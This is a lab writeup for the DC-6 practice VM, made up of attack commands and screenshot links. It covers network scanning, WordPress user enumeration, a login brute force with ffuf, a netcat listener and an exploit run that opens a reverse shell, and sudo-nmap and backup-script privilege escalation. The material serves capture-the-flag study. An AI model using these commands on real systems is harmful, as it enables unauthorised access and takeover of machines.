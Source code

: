 # DC: 6 - Writeup
![](https://img.shields.io/badge/-linux_machine-e67e00?style=for-the-badge&logo=linux&logoColor=white)


```
netdiscover -r 192.168.56.1
```
![start](https://github.com/adminush/Labs-Writeups/assets/58698274/23daeaad-f3de-4a95-aacc-7b040e412e39)

```
nmap -A -sV -T4 192.168.56.103
```
![scan](https://github.com/adminush/Labs-Writeups/assets/58698274/63315d7e-11df-4f3b-98c4-9221ba9af342)

![not-connection](https://github.com/adminush/Labs-Writeups/assets/58698274/98132037-c1c1-4058-b8e8-2c4d0d8ccd51)

![etc-hosts](https://github.com/adminush/Labs-Writeups/assets/58698274/9e5285ba-50bc-4159-9ad8-496c79e5010f)

![web](https://github.com/adminush/Labs-Writeups/assets/58698274/3b4d3620-34d1-4ad3-963b-71461a63e447)

```
dirb http//wordy/
```
![dir-1](https://github.com/adminush/Labs-Writeups/assets/58698274/0a1dba18-086a-49ff-8fbc-21c224a2ec48)

![dir-2](https://github.com/adminush/Labs-Writeups/assets/58698274/eceee3ec-b425-43bb-9d55-23ed44a0de6a)

```
dirb http://wordy/ /usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wordpess.fuzz.txt
```
![dir-wordpress-wordlist-1](https://github.com/adminush/Labs-Writeups/assets/58698274/4490eef1-b401-4ec0-8d9c-cb739826a0e3)

![dir-wordpress-wordlist-2](https://github.com/adminush/Labs-Writeups/assets/58698274/2e8ce2e3-8a11-49de-921a-3898220ea638)

![dir-wordpress-wordlist-3](https://github.com/adminush/Labs-Writeups/assets/58698274/573c32af-b62b-4bbf-b057-6312092aac1e)

```
http://wordy/?author=2
```
![check-users](https://github.com/adminush/Labs-Writeups/assets/58698274/9c1d759f-bb01-42fa-971e-d11341c3e555)

![users-wordlist](https://github.com/adminush/Labs-Writeups/assets/58698274/d749b98e-a88d-4e36-b2f9-dc6f309bb7d5)

```
fuff -u "http://wordy/wp-login.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: wordpress_test_cookie=WP+Cookie+check" -d "log=HFUZZ&pwd=WFUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwordy%2Fwp-admin%2F&testcookie=1" -w users.txt:HFUZZ -w passwords.txt:WFUZZ --fw 188,184
```
![brute](https://github.com/adminush/Labs-Writeups/assets/58698274/cff01e0a-3f39-45b7-a5c1-df767f4d1017)

![admin-panel](https://github.com/adminush/Labs-Writeups/assets/58698274/923d2fbe-7e28-400a-9e55-f99475e32a5b)

```
search in browser -> exploitdb wordpress plugin active monitoring
```
![exploitdb](https://github.com/adminush/Labs-Writeups/assets/58698274/a03d47ad-2006-409b-b12b-5c4e6a98e759)

```
nc -lvp 4444
```
![reverse-shell](https://github.com/adminush/Labs-Writeups/assets/58698274/8fe77023-4c70-491c-93a1-2a66b36e8677)

```
python3 exploit.py wordy mark:helpdesk01 192.168.56.101 4444
```
![run-exploit](https://github.com/adminush/Labs-Writeups/assets/58698274/4cd062a8-223b-48a3-ad80-ec698946e323)

![shell-connection](https://github.com/adminush/Labs-Writeups/assets/58698274/5de69024-3d0f-4b7b-981a-6a1393de9039)

![graham-pass](https://github.com/adminush/Labs-Writeups/assets/58698274/15b8d3d3-cd7a-4fcd-8920-9dd60422a633)

![graham-ssh](https://github.com/adminush/Labs-Writeups/assets/58698274/8cfa63b1-07a3-4a90-af27-2994366b83b9)

![check-jen-dir](https://github.com/adminush/Labs-Writeups/assets/58698274/6455544c-636b-4462-863b-41077c52784e)

```
nano /home/jens/backups.sh

#!/bin/bash
#tar -czf backups.tar.gz /var/www/html
/bin/bash
```
![escalation-jen](https://github.com/adminush/Labs-Writeups/assets/58698274/e40aa251-1d75-4a31-b296-7b7dae6d73ce)

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```
![escalation-root](https://github.com/adminush/Labs-Writeups/assets/58698274/cd6a8291-6ffa-49af-8252-ee30ac23711c)
